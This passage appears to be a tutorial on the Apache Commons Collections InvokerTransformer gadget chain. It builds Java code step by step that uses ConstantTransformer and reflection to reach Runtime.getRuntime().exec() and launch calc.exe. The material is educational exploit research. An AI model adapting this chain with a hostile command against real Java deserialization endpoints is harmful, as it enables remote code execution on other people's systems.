



InvokerTransFormer
The Below code shows the constuctor of the InvokerTransformer that will get called when class is being initialized.
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
this.iMethodName = methodName;
this.iParamTypes = paramTypes;
this.iArgs = args;
}When we call the TransForm Method defined at line 119 It uses Reflection to Invoke The Method Provided By Us.(If this looks foregin to you, i would recommed to Go thorugh Reflection Trainning and then Comback)
This Means Using InvokerTransFormer We can Invoke Any method Present in the Class Path
So can we Invoke Runtime.getRuntime().exec() ?
Answer is Yes, but its not Straight Forward.
So t in Runtime.class the getRuntime() is defined as a static Method.
When we are calling Static Method we canot call it from an object of the class but we have to call it on class meaning className.MethodName(). So in our case we can only do it via Runtiem.getRuntime()
IF we try to create an Object of Runtime() and call the getRuntime() it will thorugh a compile TIme Error
Try Running the Below Code
Runtime rt=new Runtime();
rt.getRuntime().exec("calc.exe");TO solve the Problem we faced Above we need ConstantTransFormer.
Remeber the Property of Constant TransFormer?
Once its instantiated it can not be Changed without the use of Reflection Explicilty.
So that is why we use ConstantTransFormer and passing Runtime.class in there.
But why are we looking for getMethod inside Runtime.class(So the output of the COnstantTransFormer will be input for the InvokerTransFormer, so the class searching is going to happen in the return value of ConstantTransFormer's tansform())?
And why we even need the "invoke"?
Thats a good catch.
Runtime.class doesn't even have the getMethod()
Lets Check what does the ConstantTransFormer's transform() returns
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import java.util.Map;
import java.util.HashMap;
import javax.xml.transform.Transformer;
import org.apache.commons.collections.functors.*;
public class testing {
public static void main(String args[]){
ConstantTransformer tr=new ConstantTransformer(Runtime.class);
InvokerTransformer transformer = new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]});
System.out.println(tr.transform("RANDOMESTRING").getClass().getName());
}
}
As you can see the retunr Value is not java.lang.Runtime but its java.lang.Class
Reason is when ever we pass a class to ConstantTransFormer it retunrs the Class.class (This Class Exist on JDK)
Now this class Doesn't have a function called getRuntime() and neither we can call it, however this calss have a function called getMethod() that uses the releection to find a method
And the Input to this function is of type String and varargs of class and hence we have passed String.class and blank Class[] and the values we want is getRuntime()
This method will then use the reflection to find the getRuntime on Runtime.class
Cool , so now its clear why we need these 2 things but what about the invoke?
We need invoke Method cause inorder for us to call the getRuntime() on runtime.class we have call it via what called "calling on the class" due to getRuntime() being static
So when we call the invoke method an instance of Runtime.class gets returned so that we can call the exec() on it
But the class.class doesn't have the Invoke() defined.
That is correct, the InvokerTransformer's transform() method return java.lang.reflect.Method and the invoke() is defined on there
So once we call the invoke Method we get the Runtime.getRuntime()@
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import java.util.Map;
import java.util.HashMap;
import javax.xml.transform.Transformer;
import org.apache.commons.collections.functors.*;
public class testing {
public static void main(String args[]){
ConstantTransformer tr=new ConstantTransformer(Runtime.class);
InvokerTransformer transformer = new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]});
InvokerTransformer tr3=new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null, new Object[0]});
System.out.println(tr.transform("RANDOMSTRING").getClass().getName());
System.out.println(transformer.transform(Runtime.class).getClass().getName());
System.out.println(tr3.transform(transformer.transform(Runtime.class)).getClass().getName());
}
}

So now we have the java.lang.Runtime and we can now call the exec() on it and that what we are doing at the end
And as always we passing the new Class[]{String.class} and new String[]{"calc.exe"} as this is what exec function needs interms of invokerTransformer
So now if we execute the below code we will have our calculator poped up.
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import java.util.Map;
import java.util.HashMap;
import javax.xml.transform.Transformer;
import org.apache.commons.collections.functors.*;
public class testing {
public static void main(String args[]){
ConstantTransformer tr=new ConstantTransformer(Runtime.class);
InvokerTransformer transformer = new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]});
InvokerTransformer tr3=new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null, new Object[0]});
InvokerTransformer tr4=new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc.exe"});
System.out.println(tr.transform("RANDOMSTRING").getClass().getName());
System.out.println(transformer.transform(Runtime.class).getClass().getName());
System.out.println(tr3.transform(transformer.transform(Runtime.class)).getClass().getName());
System.out.println(tr4.transform(tr3.transform(transformer.transform(Runtime.class))).getClass().getName());
}
}
